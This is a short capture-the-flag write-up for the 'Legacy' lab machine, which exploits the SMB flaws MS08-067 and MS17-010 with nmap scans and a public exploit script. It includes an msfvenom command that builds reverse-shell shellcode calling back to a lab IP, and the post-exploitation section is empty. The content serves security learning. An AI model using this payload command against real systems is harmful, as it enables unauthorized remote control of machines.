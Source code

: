 ![legacy](https://user-images.githubusercontent.com/43796175/105492077-5e740680-5c85-11eb-8224-07901100704c.jpg)

## LEGACY: Write Up

In this machine i learn about MS-08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143), two exploits of SMB. Exploit this vulnerability manually is simple.

# 01: Information Gathering

First of all i ran nmap with basic commands and i saw two open ports and one closed:

![nmap](https://user-images.githubusercontent.com/43796175/105779180-cf444880-5f3b-11eb-8233-22831472876c.jpg)

Then i did a deeper scan with nmap against 445 port:

![smbnmap](https://user-images.githubusercontent.com/43796175/105779606-b5573580-5f3c-11eb-87a3-a4b20fd80a5b.jpg)
![smbnmap02](https://user-images.githubusercontent.com/43796175/105779613-b7b98f80-5f3c-11eb-86f4-92610487a8b2.jpg)

Nmap showed MS08-067 (CVE-2008-4250) and MS-17-010 (CVE-2017-0143) are very interesting to exploit.

# 02: Threat Modeling

In my mental map smbclient and smbmap were the first option to test, but without results:

![smbno](https://user-images.githubusercontent.com/43796175/105781825-3d3f3e80-5f41-11eb-8e15-73347d9c62f0.jpg)


# 03: Vulnerability Analysis

Both of these vulnerabilities (MS08-067 & MS-17-010) gives a shell as system and each one have a metasploit module for exploit easily but i will show how exploit this manually.

# 04: Exploitation

## MS08-067

I will use [this exploit](https://github.com/andyacer/ms08_067) for exploit the vulnerability, this script requires impacket and replace the default shellcode with some of my own. Ok, to make the shellcode i used *msfvenom*:

`
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.11 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
`

# 05: Post-Exploitation


